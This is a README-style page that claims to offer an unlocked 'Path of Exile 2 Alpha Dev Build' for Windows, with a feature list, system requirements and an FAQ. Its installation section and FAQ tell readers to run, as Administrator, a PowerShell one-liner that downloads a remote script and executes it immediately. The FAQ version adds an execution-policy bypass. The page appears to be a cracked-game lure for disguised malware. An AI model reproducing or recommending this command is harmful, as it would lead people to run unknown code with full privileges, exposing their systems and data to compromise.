

<div align="center">


<br>


# Path of Exile 2 Alpha Dev Build
**Alpha dev build · Six-act campaign · Skill gem system 2.0**
<br>
Premium · Unlocked · Full build · Windows



**Path of Exile 2 — action RPG sequel with revamped skill gems, dodge combat, six-act campaign and endgame mapping on Windows.**

</div>

---

> Alpha Dev Build includes latest client iterations — experiment with dual-wield skill gems, dodge-roll combat and early endgame systems before public launch.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- ⚔️ **Skill gems 2.0** — Socket combinations with new support linking.
- 🏃 **Dodge combat** — Active avoidance layered on ARPG positioning.
- 🗺️ **Campaign & maps** — Six acts plus early mapping loop content.
- 🎨 **Class ascendancy** — Multiple archetypes with distinct paths.
- 🧪 **Dev channel** — Fresher mechanics than retail PoE 1 client.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 80 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 80 GB free space.
</details>


TAGS
path-of-exile, poe2, arpg, grinding-gear-games, loot, windows, software, gaming, rpg, action
